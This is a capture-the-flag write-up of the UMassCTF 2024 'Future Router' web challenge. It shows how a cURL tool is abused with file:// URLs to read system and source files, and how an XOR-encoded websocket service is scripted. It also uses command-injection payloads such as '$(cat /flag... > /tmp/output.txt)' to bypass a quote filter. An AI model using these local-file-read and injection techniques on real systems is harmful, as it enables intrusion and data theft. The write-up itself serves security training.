









# UMassCTF 2024

# Web/Future Router

## Challenge Overview

`Description` : Mr. Krabs just got a brand new router in the mail for him to use in the Krusty Krab. There was no mailing address so he's tasked you with figuring out where the router is from and finding a flag!

We were given access to a website at [this link](http://future-router.ctf.umasscybersec.org). 

So here is an image how the website looks like


The site features three main routes:
* Dashboard --> `/dash`
* cURL --> `/cURL`
* FuTuR3 r0UT3R Customer Service --> `/customerservice`






## Vulnerability Identification

So let's analyse every route.

* `dash` --> Upon exploring the Dashboard route, we discovered information about three devices, each with a `hostname` and `port` specified.

    * Hostname:patricks-rock,
      Port - Service,
      http:80

    * Hostname:spongebobs-spatula,
      Port - Service,
      http:80

    * Hostname:squidwards-clarinet,
      Port - Service,
      http:80      

Attempts to access these devices via our browser were unsuccessful. However, we speculated that one of these devices might contain the email address mentioned in the challenge description. For now, we set this aside for further investigation.


* `cURL` --> The cURL route presented a simple tool for fetching URLs and displaying their responses. 

For example if we pass `www.google.com` as input displays the response from the specified URL.



We quickly realized that we could leverage this tool to read local files by utilizing the `file://` protocol. This allowed us to access sensitive system files such as `/etc/passwd`, indicating a potential security vulnerability.



At this moment I thought we have to find a flag.txt on the machine by hit and trial in every directory possible.

But then I tried accessing `/proc/self/cmdline` as my second approach and we can see it is a python gunicorn gateway application.

```bash
# cmdline
/usr/local/bin/python/usr/local/bin/gunicorn-w4--bind0.0.0.0:8000app:app
```

Hence I tried reading the `app.py` in the current working directory using `file:///proc/self/cwd/app.py`

```python
# app.py

from flask import Flask
from blueprints.routes import httpserver

app = Flask(__name__)
# This web server is the property of Sheldon J. Plankton, 
# please refrain from reading this secret source code.
# I WILL USE THIS ROUTER TO STEAL THE SECRET KRABBY PATTY FORMULA!
app.register_blueprint(httpserver, url_prefix='/')
```
The source code is hidden somehow and we have to find the way to read it as mentioned in the comments of the `app.py`

When I tried to access `/proc/self/environ` it gave me the name of directory --> `/planktonsrouter1ba8b69e`
```bash
# environ
OLDPWD=/PWD=/planktonsrouter1ba8b69e
```
As it is using blueprints we can read the source code through `file:///planktonsrouter1ba8b69e/blueprints/routes.py`

```python
# routes.py

from flask import Flask, request, render_template, Blueprint,send_from_directory
from io import BytesIO
import pycurl 

httpserver = Blueprint('httpserver', __name__)

#@httpserver.route("/docs",methods=["GET"])
#def docs():
#   return """<!doctype html>
#    <h1>Router Docs</h1>
#
#    <h2>Websocket API</h2>
#
#    <strong>TODO: Document how to talk to 
#   Karen's customer service module in ../karen/customerservice.py
#   Also figure out how to use supervisord better.</strong>
#"""
#
# Securely CURL URLs, absolutely no bugs here!

@httpserver.route("/static/<path:path>")
def static(path):
    return send_from_directory('static',path)

@httpserver.route("/cURL",methods=["GET","POST"])
def curl():
    if(request.method == "GET"):
        return render_template('curl.html')
    elif(request.method == "POST"):
        try:
            buffer = BytesIO()
            c = pycurl.Curl()
            c.setopt(c.URL, request.json['URL'])
            c.setopt(c.WRITEDATA, buffer)
            c.perform()
            c.close()
            DATA = buffer.getvalue()
            return {"success":DATA.decode('utf-8')}
        except Exception as e:
            return {"error":str(e.with_traceback(None))}

@httpserver.route("/customerservice",methods=["GET"])
def customerservice():
    return render_template('customerservice.html')

NETWORK = [
    {'hostname':'patricks-rock','ports':[{'service':'http','num':80}]},
    {'hostname':'spongebobs-spatula','ports':[{'service':'http','num':80}]},
    {'hostname':'squidwards-clarinet','ports':[{'service':'http','num':80}]},

]
@httpserver.route("/dash",methods=["GET"])
def dash():
    return render_template('dashboard.html',network=NETWORK)

@httpserver.route("/")
def hello_world():
    return render_template("index.html")   
```


We noticed a Python file mentioned in the comment `../karen/customerservice.py`. However, while we were solving, we found the file name using an alternative approach.

Exploring the `/proc` directory, we experimented with different process IDs (PIDs).

In `/proc/1/cmdline` we can see a bash script being run `entrypoint.sh`

```sh
# entrypoint.sh
cd /planktonsrouter1ba8b69e

# Loop to monitor and restart Gunicorn if it crashes
while true; do
    echo "Restarting Gunicorn..."
    gunicorn -w 4 --bind 0.0.0.0:8000 'app:app'
    sleep 1
done &

# Loop to monitor and restart customerservice.py if it crashes
while true; do
    python3 karen/customerservice.py
    echo "Restarting Customer Service..."
    sleep 1
done &

# Loop to clean up old files in /tmp every 15 seconds
while true; do
    find /tmp/* -type f -mmin +2 -exec rm -f {} +
    sleep 15
done
```

```python
import asyncio, os, re
from websockets.server import serve

# Due to security concerns, I, Sheldon J. Plankton have ensured this module
# has no access to any internet service other than those that are
# trusted. This agent will trick Krabs into sending me the secret
# krabby patty formula which I will log into Karen's secret krabby patty 
# secret formula file! First, I have to fix a few security bugs!
class KarenCustomerServiceAgent:
    SECRET_KEY = bytearray(b"\xe1\x86\xb2\xa0_\x83B\xad\xd7\xaf\x87f\x1e\xb4\xcc\xbf...i will have the secret krabby patty formula.")
    Dialogue = {
        "Welcome":"Hello! Welcome to the Future Router service bot!",
        "Secret formula":"Thank you for your input, we will process your request in 1-3 business days",
        "Problem":"Are you having an issue? Please enter the secret krabby patty formula in the dialogue box to continue"
    }
    def handle_input(self,message):
        if ("hello" in message):
            return self.Dialogue["Welcome"]
        elif("krabby patty" in message):
            filtered_message = re.sub(r"(\"|\'|\;|\&|\|)","",message)
            os.system(f'echo "{filtered_message}\n" >> /dev/null')
            return self.Dialogue["Secret formula"]
        elif("problem" in message):
            return self.Dialogue["Problem"]
        else:
            return "I could not understand your message, this agent is under construction. Please use the other implemented features for now!"
    def xor_decrypt(self,ciphertext):
        plaintext = ""
        cipher_arr = bytearray(ciphertext)
        for i in range(0,len(cipher_arr)):
            plaintext += chr(cipher_arr[i] ^ self.SECRET_KEY[i % len(self.SECRET_KEY)])
        return plaintext

KarenAgent = KarenCustomerServiceAgent()

async def respond(websocket):
    async for message in websocket:
        data = KarenAgent.xor_decrypt(message.encode('latin-1'))
        response = KarenAgent.handle_input(data)
        await websocket.send(response)

async def main():
    async with serve(respond, "0.0.0.0", 9000):
        await asyncio.Future()  # run forever

asyncio.run(main())          
```

For now, let's set aside this file and explore another functionality: `/customerservice`.

This route hosts a websocket application. Despite attempting various inputs such as `hi` or `hello`, we encountered no success. This outcome was unsurprising upon reviewing the source code.



After analyzing the source code, we observed that the input is initially decoded using the `xor_decrypt` function before being passed into the `handle_input()` function.

If the message contains `hello` after decryption, the application responds with the welcome message.

Let's proceed with a test.

So here is our script

```python
import asyncio
import websockets

SECRET_KEY = bytearray(b"\xe1\x86\xb2\xa0_\x83B\xad\xd7\xaf\x87f\x1e\xb4\xcc\xbf...i will have the secret krabby patty formula.")

def xor_encrypt(plaintext):
    ciphertext = ""
    for i in range(len(plaintext)):
        ciphertext += chr(plaintext[i] ^ SECRET_KEY[i % len(SECRET_KEY)])
    return ciphertext

plaintext = "hello"
ciphertext = xor_encrypt(plaintext.encode())

async def send_message():
    uri = "ws://future-router.ctf.umasscybersec.org/app/"
    # uri = 'ws://0.0.0.0:9000/'
    async with websockets.connect(uri) as websocket:
        await websocket.send(ciphertext)
        response = await websocket.recv()
        print("Response from server:", response)

asyncio.run(send_message())
```

And bingo we get the welcome message in response



Upon further analysis of the code, we discovered a command injection vulnerability triggered when sending `krabby patty` in the message. Although the code includes some filters, they can be bypassed using `$(test_cmd)`. To view the response, we redirected the output of the command injection to a file and then accessed it using the cURL functionality.

Let's proceed with the command `krabby patty $(ls > /tmp/output.txt)`. The response from the websocket server matched our expectations:

```
Response from server: Thank you for your input, we will process your request in 1-3 business days
```

Subsequently, reading the file from cURL using `file:///tmp/output.txt` yielded the desired response.


Let's list the files of `/` using `krabby patty $(ls / > /tmp/output.txt)` as input


We can see the name of the flag file as `flag53958e73c5ba4a66`.

We also attempted alternative approaches, such as accessing the hostname provided on the dashboard using the cURL route. However, the static source code did not provide any useful information in this regard.

input = `http://hostname:80/`

One example



## Obtaining the Flag

Now just read the file using `krabby patty $(cat /flag53958e73c5ba4a66 > /tmp/output.txt)`

 

Flag: **UMASS{W3lC0m3_t0_Th3_FuTur3_Kr4bS_c28e1089b2}**

Thank You